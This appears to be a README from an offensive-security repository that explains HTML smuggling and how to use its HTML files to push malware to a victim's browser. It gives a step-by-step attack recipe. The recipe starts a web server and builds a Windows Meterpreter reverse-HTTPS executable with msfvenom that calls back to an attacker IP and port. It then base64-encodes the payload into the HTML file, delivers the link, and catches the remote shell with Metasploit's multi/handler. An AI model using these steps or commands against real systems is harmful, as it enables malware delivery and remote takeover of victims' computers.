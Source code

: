 ### HTMLSmuggling Presentation

HTML Smuggling is one of the Client-Side attacks that consist on trick someone to clik on a malicious link that redirects to a malicious web that download on his computer malware.

In this part of the repository we can find several HTML files that lead to the download of the client's browser of malicious code via JavaScript code.

The use of this files is as follows:

- Open a HTTP server, for example:

    ```bash
    sudo service apache2 start
    ```

- Create a Base64 Meterpreter executable:

    ```bash
    sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe

    base64 /var/www/html/msfstaged.exe
    ```

- Copy the Base64 payload onto the HTML file (-Chrome if the client is using Google Chrome or -Edge if the client is using Microsoft Edge).

- Place the HTML file in the root directory of the HTTP server (var/www/html)

- Deliver the link.

- Make use of the multi/handler module of Metasploit Framework to catch the callback.